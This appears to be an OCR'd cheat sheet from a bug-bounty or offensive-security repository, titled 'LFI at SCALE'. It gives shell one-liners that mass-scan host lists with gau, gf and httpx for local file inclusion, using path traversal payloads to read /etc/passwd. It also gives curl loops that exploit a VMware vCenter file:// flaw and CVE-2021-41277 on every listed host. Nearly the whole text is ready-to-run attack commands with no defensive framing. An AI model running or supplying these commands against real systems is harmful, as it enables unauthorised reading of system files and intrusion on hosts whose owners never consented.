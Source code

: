 ```




LFI at SCALE:

```

cat hosts | gau | gf lfi | httpx -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST -tech-detect -status-code -follow-redirects -mc 200 -mr "root:[x*]:0:0:"

```



```

cat hosts | httpx -nc -t 300 -p 80,443,8080,8443,8888,8088 -path "/jobmanager/logs/..%252f..%252f..%252f......%252f..%252fetc%252fpasswd" -mr "root:x" -silent

```



```

cat hosts | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -path "///////../../../etc/passwd" -mr "root:x" | anew myP1s.txt

```



VMware vCenter (7.0.2.00100):

```

cat target.txt| while read host do;do curl --insecure --path-as-is -s "$host/ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=file:///etc/passwd"| grep "root:x" && echo "$host Vulnerable";done

```



CVE-2021-41277:

```

cat targets.txt| while read host do;do curl --silent --insecure --path-as-is "$host/api/geojson?url=file:///etc/passwd" | grep -qs "root:x" && echo "$host \033[0;31m Vulnerable";done

```



```
